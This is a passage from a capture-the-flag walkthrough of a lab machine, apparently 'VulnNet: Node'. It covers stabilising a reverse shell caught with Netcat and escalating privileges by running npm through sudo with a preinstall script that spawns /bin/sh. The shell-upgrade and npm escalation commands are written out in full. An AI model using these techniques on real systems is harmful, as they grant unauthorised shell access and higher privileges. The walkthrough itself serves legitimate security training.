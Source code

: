 After sending the request, check back to the terminal running the Netcat listener for the connection back from the victim machine:

![ef4989e5c3e18f38b0a95624d7bb82be.png](/resources/0190f852a26943dfa60f9b20a344b9d1.png)

Let's stablize the shell we just got by doing the following steps:

1. Use Python to spawn a stable shell:
   ```sh
   python3 -c 'import pty;pty.spawn("/bin/bash")'
   ```
2. `CTRL+Z` to background the current shell
3. Fix echoing and foregrounds the shell:
   ```sh
   stty raw -echo;fg
   ```
4. Set terminal to use 256 colors:
   ```sh
   export TERM=xterm-256color
   ```

# Privilege Escalation

### \[-] serv-manage\@vulnnet-node

Running [sudo](https://linux.die.net/man/8/sudo) with the `-l` flag will return the sudo permissions for our current account, `www-data`. We will find that this account can run `/usr/bin/npm` as the user `serv-manage`:

```sh
sudo -l
```

![064aa2d971364654406b025e16870be6.png](/resources/f066a16c64784286be55207202078261.png)

Following this [GTFObins method](https://gtfobins.github.io/gtfobins/npm/), we can use the `npm` binary to maintain privileges as the user, `serv-manage`. Essentially, we are creating a `package.json` file that will run `/bin/sh` with `sudo` to maintain privileges. We just have to adjust a few things to make it work on this machine:

```sh
mkdir ~/tmp && TF=~/tmp
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
sudo -u serv-manage /usr/bin/npm -C $TF --unsafe-perm i
```

![fca8a366494ab3276d268b44257e2e1a.png](/resources/11437c33f58949fc991a00bce80fd6e1.png)

We can find the user flag in `/home/serv-manage/user.txt`:

![48923806bdc73a8061235d7ae394e83d.png](/resources/820d689ae9394cfc925d3d49fa8189c0.png)

### \[-] root\@vulnnet-node
